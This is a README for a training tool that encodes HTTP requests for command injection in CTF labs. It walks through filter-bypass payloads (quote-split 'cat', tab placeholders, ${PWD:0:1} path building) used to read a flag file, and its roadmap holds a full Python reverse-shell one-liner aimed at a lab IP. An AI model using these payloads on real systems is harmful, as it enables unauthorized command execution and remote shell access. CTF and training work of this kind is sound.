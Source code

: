 # Request Encoder

Request Encoder (cire) is a tool that can be used to encode requests mostly for pseudo-manual command injection exploitation. This tool was developed for training purposes.

#### Testing

We can test the tool on the following practice CTF machine: `https://academy.hackthebox.com/module/109/section/1042`.

* We can try to inject something in each parameter of the request, such as `from` below:

```ps
$ ./main.py -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';' -v
```

The following requests result in an error displayed to the URL indicating that the command `mv` failed (missing operand). **The parameter is vulnerable.**

Trying payloads with well-known commands such as `;id`, `;pwd` or `;cat` are filtered (`Malicious request denied!`) while `;w` works fine. Commands such as `;c""at` are by-passing the filter.

```ps
$ ./main.py -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';c""at' -v
```

Spaces are filtered. We can use tabs using the placeholder `<tab>`.

```ps
$ ./main.py -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';c""at<tab>' -v
```

We need to build a path. `..` is allowed, while `../` is filtered. We can use variables:

```ps
$ ./main.py -u "<URL:port>/index.php?to=tmp&from=51459716.txt&finish=1&move=1" -H 'Cookie: filemanager=<auth cookie>' -p from -i ';ca""t<tab>..${PWD:0:1}..${PWD:0:1}..${PWD:0:1}..${PWD:0:1}flag.txt' -v
```

#### Roadmap

- [ ] Add [chillhack](https://tryhackme.com/room/chillhack) to tests:

```ps
./main.py -u http://10.10.205.6/secret/ -p command -X POST -v -i 'export RHOST="10.9.168.80";export RPORT=4444;python3 -c <q>import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")<q>'
```

- [ ] Add redirection switch
- [ ] Add proper logging (headers=>not always)
- [ ] Actually, follow the common approaches (sqlmap/...)
- Root-me challenges

```ps
$ onectf request -u 'URL' -v -X POST -p param -i '|| cat file <er>'
$ onectf request -u 'URL' -v -X POST -d 'param1=a&param2=b' -p 'param3' -i '5+5' --raw
$ onectf request -u 'URL' -v -X POST -p 'param' -I file --raw --tamper data_base64
$ onectf request -u 'URL' -v -X POST -p 'param' --tamper php_octal -i 'phpinfo()'
$ onectf request -u 'URL' -v -X POST --json -I request.json
```